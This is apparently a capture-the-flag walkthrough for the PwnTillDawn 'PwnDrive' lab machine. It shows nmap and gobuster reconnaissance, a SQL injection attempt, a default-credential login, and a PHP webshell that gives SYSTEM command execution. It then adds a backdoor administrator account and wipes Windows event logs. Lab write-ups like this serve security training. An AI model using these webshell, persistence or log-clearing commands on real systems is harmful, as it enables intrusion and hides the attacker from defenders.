

# PwnTillDawn-Walkthrough
Penetration testing walkthrough for PwnDrive machine
# PwnDrive - 10.150.150.11 Walkthrough

## 📋 Machine Information
- **Target IP:** 10.150.150.11
- **OS:** Windows Server 2008 R2
- **Difficulty:** Easy
- **Goal:** Capture the flag

## Phase 1: Reconnaissance

First, I scanned the target to find open ports:

```bash
nmap -sV -sC -Pn -vv 10.150.150.11 

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Xlight ftpd 3.9
80/tcp    open  http          Apache 2.4.46
443/tcp   open  ssl/http      Apache 2.4.46
445/tcp   open  microsoft-ds  Windows Server 2008 R2
1433/tcp  open  ms-sql-s      SQL Server 2012
3306/tcp  open  mysql         MariaDB 10.4.14
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
```

## Phase 2: Enumeration
I ran directory brute-forcing on port 80:
Directory Brute-forcing
``` bash
gobuster dir -u http://10.150.150.11 -w /usr/share/wordlists/dirb/common.txt -x php
```
Interesting Findings
/admin/ - Admin panel

/upload/ - File upload directory

/login.php - Login page

/myfiles.php - File manager

## Phase 3: Gaining Access
1. Check Login Page
``` bash
curl http://10.150.150.11/login.php
```
Attempt 1: SQL Injection
Trying SQL injection at login page:
```bash
curl -X POST http://10.150.150.11/login.php -d "username=admin' OR '1'='1&password=anything"
```
Response: Error "Char or String '=' is not allowed" - website have filtering.

Attempt 2: Trying Default Credentials:
``` bash
curl -X POST http://10.150.150.11/login.php \
  -d "username=admin&password=admin" \
  -L \
  -c cookies.txt
``` 
Success! Logged in with admin:admin

## Phase 4: Exploitation
1. Uploading Webshell
Created shell.php:
``` bash
<?php system($_GET['cmd']); ?>
```
2. Uploaded via /myfiles.php

3. Accessed at /upload/2/shell.php

Getting SYSTEM Access
``` bash
curl "http://10.150.150.11/upload/2/shell.php?cmd=whoami"
```
Output: nt authority\system

## Phase 5: Capturing the Flag
Finding the Flag:
``` bash
curl "http://10.150.150.11/upload/2/shell.php?cmd=dir%20/s%20C:\*flag*.txt"
```
Flag Location:
``` bash
C:\Users\Administrator\Desktop\FLAG1.txt
```
Flag Content:
``` bash
curl "http://10.150.150.11/upload/2/shell.php?cmd=type%20C:\Users\Administrator\Desktop\FLAG1.txt"
```
FLAG: PwnTillDawnAcademyIsAwesome!!!

## Phase 6: Maintaining Access (Optional)
Creating Backdoor User:
``` bash
curl "http://10.150.150.11/upload/2/shell.php?cmd=net%20user%20hacker%20P@ssw0rd123%20/add"
curl "http://10.150.150.11/upload/2/shell.php?cmd=net%20localgroup%20administrators%20hacker%20/add"
```
## Phase 7: Clearing Tracks
Deleting Webshell:
``` bash
curl "http://10.150.150.11/upload/2/shell.php?cmd=del%20C:\xampp\htdocs\upload\2\shell.php"
```
Clearing Logs:
``` bash
curl "http://10.150.150.11/upload/2/shell.php?cmd=wevtutil%20cl%20System"
curl "http://10.150.150.11/upload/2/shell.php?cmd=wevtutil%20cl%20Application"
```
## Tools Used
1. Nmap
2. Gobuster
3. cURL
4. Browser
